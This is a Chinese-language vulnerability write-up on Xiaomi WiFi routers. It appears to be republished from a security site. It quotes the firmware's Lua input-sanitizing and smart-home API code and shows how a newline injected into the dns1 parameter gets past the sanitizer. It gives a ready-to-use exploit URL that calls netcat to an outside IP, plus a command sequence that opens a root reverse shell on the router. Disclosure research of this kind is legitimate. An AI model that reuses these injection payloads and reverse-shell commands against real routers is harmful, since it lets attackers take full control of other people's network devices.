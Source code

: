 这里潜在有问题的函数是XQSecureUtil.parseCmdline在 中声明的解析函数/usr/lib/lua/xiaoqiang/util/XQSecureUtil.lua，它将尝试通过转义不同的字符来清理输入。

```
function parseCmdline(str)    if XQFunction.isStrNil(str) then        return ""    else        return str:gsub("\", "\\")                  :gsub("`", "\`")                  :gsub(""", "\"")                  :gsub("%$", "\$")                  :gsub("%&", "\&")                  :gsub("%|", "\|")                  :gsub("%;", "\;")    endend
```

由于受到 shell 命令注入的困扰，该dns1变量可以填充n（0x0a十六进制）以添加任意命令。事实上，n绕过了该函数所做的[ 安全](https://cn-sec.com/archives/2611064.html#)检查XQSecureUtil.parseCmdline。例如，注入 API URL 中的以下有效负载netcat在 IP192.168.31.161和端口上发出连接请求8282：dns1=anything%0anc 192.168.31.161 8282

示例网址：http://192.168.31.1/cgi-bin/luci/;stok=3ab3ea7324a1eb604be37dff197cf504/api/xqnetwork/set_wan6?wanType=native&dns1=anything%0anc%20192.168.31.161%208282

我们可以在路由器上执行任何命令，但有一些限制。某些字符使用反斜杠进行转义，但我们可以运行 ased来删除反斜杠以“取消转义”字符。例如，以下命令列表会在路由器上弹出反向 shell：

```
commands = [    f"rm -f /tmp/f",    f"mknod /tmp/f p",    f"echo 'cat /tmp/f|sh -i 2>&1|nc {IP} {PORT} >/tmp/f' > revshell.sh",    f'sed -i 's/\//g' revshell.sh',    f"sh revshell.sh"]
```

因此，我们在路由器上有一个反向 shell：

![小米WiFi路由器漏洞挖掘-WAN 命令注入、LAN 认证后堆栈缓冲区溢出、LAN 身份验证命令注入、WAN 堆栈缓冲区溢出](http://cn-sec.com/wp-content/uploads/2024/03/1-1711605271.png)

远程代码执行

该漏洞实际上是CVE-2020-14100的重复，我们是偶然重新发现的。但是我们现在在路由器上有了第一个根反向 shell，对整个文件系统没有限制，太棒了！

**端点/api/xqsmarthome/request_smartcontroller- 命令注入 (CVE-2023-26319)**

授权后 API 端点/api/xqsmarthome/request_smartcontroller旨在与网络上的智能家居设备进行交互，在 url 参数中实现/usr/lib/lua/luci/controller/api/xqsmarthome.lua并接受 url 参数payload。

```
function index()    local page   = node("api","xqsmarthome")    page.target  = firstchild()    page.title   = ("")    page.order   = 500    -- We have to be authenticated to access this API    page.sysauth = "admin"    page.sysauth_authenticator = "jsonauth"    page.index = true    entry({"api", "xqsmarthome"}, firstchild(), _(""), 500)    entry({"api", "xqsmarthome", "request"}, call("tunnelSmartHomeRequest"), _(""), 501)    -- API endpoint `request_smartcontroller` is defined here     entry({"api", "xqsmarthome", "request_smartcontroller"}, call("tunnelSmartControllerRequest"), _(""), 502)    entry({"api", "xqsmarthome", "request_miio"}, call("tunnelMiioRequest"), _(""), 503)    entry({"api", "xqsmarthome", "request_mitv"}, call("requestMitv"), _(""), 504)    entry({"api", "xqsmarthome", "request_yeelink"}, call("tunnelYeelink"), _(""), 505)    entry({"api", "xqsmarthome", "request_camera"}, call("requestCamera"), _(""), 506)    entry({"api", "xqsmarthome", "request_miiolist"}, call("requestMiioList"), _(""), 507) end[...]function tunnelSmartControllerRequest()    local XQLog = require("xiaoqiang.XQLog")    local XQCryptoUtil = require("xiaoqiang.util.XQCryptoUtil")    local LuciJson = require("json")    local http_data = LuciJson.decode(LuciHttp.formvalue("payload"))    -- Our `payload` is base64 encoded    local payload = XQCryptoUtil.binaryBase64Enc(LuciHttp.formvalue("payload"))    [...]    local cmd = XQConfigs.THRIFT_TUNNEL_TO_SMARTHOME_CONTROLLER % payloadlocal LuciUtil = require("luci.util")    -- Some command containing our `payload` is executed here    LuciHttp.write(LuciUtil.exec(cmd))end
```
